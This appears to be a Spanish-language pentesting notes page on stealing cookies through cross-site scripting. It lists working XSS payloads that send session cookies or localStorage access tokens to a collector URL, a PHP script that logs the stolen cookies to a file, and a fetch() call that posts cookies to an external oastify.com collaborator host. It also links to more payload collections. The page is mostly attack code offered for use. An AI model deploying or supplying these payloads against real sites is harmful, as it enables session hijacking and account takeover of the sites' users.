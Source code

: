 Obtiene la cookie de administrador o el token de acceso confidencial, la siguiente carga útil lo enviará a una página controlada.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>

<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

el archivo `cookie.php` escribe los datos recopilados en un archivo:

```bash
php -S 127.0.0.1:80
```

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### STEALING COOKIES WITH CORS

```HTML
<script>
  fetch('https://536ebr0pyrhacdwchh4hhfg0wr2hq6.oastify.com', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

### XSS DEFACEMENT PAGE

- [[Pentesting Javascript]]

#### Otras maneras

Más exploits en [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all) :

-   [Tomar capturas de pantalla usando XSS y HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
-   [Escáner de puertos JavaScript](http://www.gnucitizen.org/blog/javascript-port-scanner/)
-   [Escáner de red](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
-   [Ejecución de shell .NET](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
-   [Formulario de redirección](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
-   [Reproducir música](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)
